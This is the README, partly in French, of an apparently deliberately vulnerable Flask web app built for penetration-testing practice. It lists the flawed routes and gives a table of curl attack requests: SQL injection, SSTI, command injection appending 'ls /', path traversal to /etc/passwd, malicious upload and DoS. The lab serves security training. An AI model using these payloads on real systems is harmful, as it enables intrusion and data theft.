 # Vulnerable-Flask-App

Erlik 2 - Vulnerable-Flask-App

Tested - Kali 2022.1

## Description

It is a vulnerable Flask Web App. It is a lab environment created for people who want to improve themselves in the field of web penetration testing.

## Features

It contains the following vulnerabilities.

-HTML Injection

-XSS

-SSTI

-SQL Injection

-Information Disclosure

-Command Injection

-Brute Force

-Deserialization

-Broken Authentication

-DOS

-File Upload

## Installation

git clone https://github.com/anil-yelken/Vulnerable-Flask-App

cd Vulnerable-Flask-App

sudo pip3 install -r requirements.txt

## Usage

python3 vulnerable-flask-app.py

<img src="https://github.com/anil-yelken/Vulnerable-Flask-App/blob/main/vulnerable-flask-app.jpg">

##  REST API à tester

un script Python qui définit une application Flask. Cette application semble avoir plusieurs routes, chacune gérant différentes fonctionnalités liées à une API REST. Voici un bref aperçu de certaines des routes :

/ : Renvoie "REST API" lorsqu'il est accédé.

/user/<string:name> : Récupère les informations utilisateur d'une base de données SQLite en fonction du nom d'utilisateur fourni.

/welcome/<string:name> : Renvoie un message de bienvenue avec le nom fourni.

/welcome2/<string:name> : Renvoie un message de bienvenue avec le nom fourni, mais sans utiliser jsonify.

/hello : Démontre une injection de modèle côté serveur (SSTI) en rendant un modèle avec le nom fourni.

/get_users : Exécute une commande shell pour effectuer une recherche DNS (dig) en fonction du nom d'hôte fourni.

/get_log/ : Lit le contenu du fichier restapi.log.

/read_file : Lit le contenu d'un fichier spécifié.

/deserialization/ : Démontre un exemple simple de désérialisation en utilisant le module pickle de Python.

/get_admin_mail/<string:control> : Renvoie l'adresse e-mail de l'administrateur si le paramètre de contrôle est défini sur "admin".

/run_file : Exécute une commande shell en fonction du nom de fichier fourni.

/create_file : Crée un fichier avec le nom de fichier et le contenu spécifiés.

/factorial/<int:n> : Calcule le factoriel d'un nombre. Met en œuvre un mécanisme de limitation du taux basique.

/login : Simule un mécanisme de connexion simple.

/route : Démontre la définition dynamique du type de contenu de la réponse.

/logs : Enregistre des données dans le fichier restapi.log.

/user_pass_control : Vérifie si le mot de passe inclut le nom d'utilisateur.

/upload : Gère les téléchargements de fichiers.

+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+
|           Vulnérabilité                   |     Type d'Attaque    |                       Exemple de Requête Malveillante                     |                Commentaire                 |
+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+
| Injection SQL dans `/user/<string:name>` | Injection SQL         | `curl http://adresse_ip:8081/user/' OR 1=1; --`                          | Exploite une injection SQL pour contourner l'authentification. |
| Server-Side Template Injection (SSTI)    | Server-Side Template  | `curl http://adresse_ip:8081/hello?name={{7*7}}`                         | Exploite la vulnérabilité SSTI pour évaluer une expression Python côté serveur. |
| Command Injection dans `/get_users`      | Command Injection     | `curl http://adresse_ip:8081/get_users?hostname=; ls /`                  | Exploite une injection de commande pour exécuter la commande `ls /` sur le serveur. |
| Lecture de Fichier dans `/read_file`     | Lire des Fichiers      | `curl http://adresse_ip:8081/read_file?filename=/etc/passwd`            | Exploite une vulnérabilité de lecture de fichier pour lire le fichier `/etc/passwd`. |
| Deserialization dans `/deserialization/` | Deserialization        | `curl http://adresse_ip:8081/deserialization/ -d 'pickled_data_here'`  | Exploite une vulnérabilité de désérialisation en envoyant des données sérialisées malveillantes. |
| Injection de Commande dans `/run_file`   | Injection de Commande  | `curl http://adresse_ip:8081/run_file?filename=file_to_run.sh`         | Exploite une injection de commande pour exécuter un fichier arbitraire sur le serveur. |
| Création de Fichier dans `/create_file`  | Création de Fichier    | `curl http://adresse_ip:8081/create_file?filename=malicious_file.txt&text=malicious_content` | Exploite la création de fichier pour écrire un fichier malveillant sur le serveur. |
| Lire des Logs dans `/get_log/`           | Lire des Fichiers      | `curl http://adresse_ip:8081/get_log/`                                  | Exploite la vulnérabilité de lecture de fichier pour lire le fichier de logs. |
| Obtention d'email d'admin dans `/get_admin_mail/<string:control>` | Bypass de Contrôle | `curl http://adresse_ip:8081/get_admin_mail/admin`                     | Exploite le contournement du contrôle pour obtenir l'email de l'admin. |
| Limite de Requête dans `/factorial/<int:n>` | Attaque par Déni de Service | `curl http://adresse_ip:8081/factorial/1000000`                      | Exploite la limitation de requête pour effectuer une attaque par déni de service. |
| Injection de Formulaire dans `/login`    | Injection de Formulaire | `curl -X GET "http://adresse_ip:8081/login?username=malicious&password=' OR '1'='1"` | Exploite une injection dans le formulaire de login. |
| Upload de Fichier Malveillant dans `/upload` | Téléchargement de Fichier Malveillant | `curl -X POST -F "file=@malicious_file.php" http://adresse_ip:8081/upload` | Exploite une mauvaise validation de fichiers pour télécharger un fichier malveillant. |
| Traversée de Répertoire dans `/read_file` | Traversée de Répertoire | `curl http://adresse_ip:8081/read_file?filename=../../etc/passwd`      | Exploite une vulnérabilité de traversée de répertoire pour lire le fichier `/etc/passwd`. |
| Énumération d'Utilisateurs dans `/get_users` | Énumération d'Utilisateurs | `curl http://adresse_ip:8081/get_users?hostname=google.com; ls /home` | Exploite une vulnérabilité pour récupérer des informations sensibles sur les utilisateurs. |
| Énumération de Fichiers dans `/get_log/` | Énumération de Fichiers | `curl http://adresse_ip:8081/get_log/../../../etc/`                   | Exploite une vulnérabilité pour récupérer des informations sensibles sur le système. |
| Modification de Logs dans `/logs`        | Modification de Logs  | `curl http://adresse_ip:8081/logs?data=malicious_log_entry`            | Exploite une vulnérabilité pour injecter des entrées malveillantes dans les logs. |
| Attaque par Force Brute dans `/login`    | Attaque par Force Brute | `curl -X GET "http://adresse_ip:8081/login?username=admin&password=bruteforce123"` | Exploite la faiblesse d'un mécanisme de login en tentant différentes combinaisons. |
| Interception de Session dans `/login`     | Interception de Session | `curl -X GET "http://adresse_ip:8081/login?username=admin&password=malicious&cookie=attacker_cookie"` | Exploite une vulnérabilité pour intercepter la session utilisateur. |
| Spoofing d'Adresse IP dans `/factorial/<int:n>` | Spoofing d'Adresse IP | `curl --header "X-Forwarded-For: attacker_ip" http://adresse_ip:8081/factorial/5` | Exploite une vulnérabilité pour simuler une adresse IP falsifiée. |
| Contournement d'Authentification dans `/get_admin_mail/<string:control>` | Contournement d'Authentification | `curl http://adresse_ip:8081/get_admin_mail/protected` | Exploite une faiblesse dans le contrôle d'authentification pour accéder à des données protégées. |
+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+
